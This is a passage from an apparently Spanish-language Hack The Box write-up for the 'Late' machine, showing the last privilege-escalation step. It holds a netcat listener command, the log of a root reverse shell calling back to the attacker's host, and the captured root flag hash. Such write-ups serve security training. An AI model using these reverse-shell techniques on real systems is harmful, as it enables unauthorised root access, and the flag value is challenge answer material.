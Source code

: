 ![](/assets/images/htb-writeup-late/shell.png)

Por último coloque mi listener con netcat e inicie sesión nuevamente mediante SSH para poder obtener una Shell como el usuario root.

``` bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvp 443      
listening on [any] 443 ...
connect to [10.10.14.7] from late.htb [10.10.11.156] 36436
bash: cannot set terminal process group (2316): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# whoami
whoami
root
root@late:/# cat /root/root.txt
cat /root/root.txt
b97fada8115f1c0862861d60c8416d88
root@late:/# 
``` 
